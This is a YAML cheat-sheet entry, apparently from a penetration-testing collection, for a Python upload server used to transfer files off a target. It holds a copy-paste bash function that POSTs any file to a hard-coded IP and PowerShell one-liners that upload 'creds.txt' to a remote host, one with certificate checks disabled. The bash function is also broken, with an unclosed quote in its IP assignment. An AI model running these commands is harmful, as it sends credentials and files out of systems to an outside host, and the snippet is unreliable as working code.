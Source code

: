 ```yaml
---
functions:
  file-transfer:
    - description: This python script will handle file uploads and supports POST requests
      code: |
        usage: http-server.py [-h] [-p PORT] [-l LISTEN] [-n]

        A Better Python3 HTTP Server

        optional arguments:
          -h, --help            show this help message and exit
          -p PORT, --port PORT  the port for the http service to listen on
          -l LISTEN, --listen LISTEN
                                the interface to bind to
          -n, --no-ssl          do not serve https / ssl

        UPLOAD:
          Start the Server - python3 http-server.py
          Pick your method:

          - - - curl - - - 
          curl -k -i -X POST -F 'filename=@<filename>' -F 'name=file' http(s)://<ip>:<port>
          
          TIP - cp paste this function and run "get <file>"

        get(){
        file=$1
        ip="10.10.14.8
        port="8080"
        #echo $file $ip $port
        output=$(curl -k -i -X POST -F filename=@"$file" -F name=file "http://$ip:$port")
        if [[ "$output" == *"success"* ]]; then
          echo "[+] Uploaded! --> $file"
        else
          echo "[-] Upload Failed! --> $file $ip:$port"
        fi
        }

          - - - powershell - - - 
          powershell -c (New-Object System.Net.WebClient).UploadFile('http://<ip>:<port>', 'creds.txt')
          powershell -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(New-Object System.Net.WebClient).UploadFile('https://10.0.0.4:8000', 'creds.txt')
          (3) manually browsing to the ip and port
          (4) profit!
resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/http-server.py

---
```

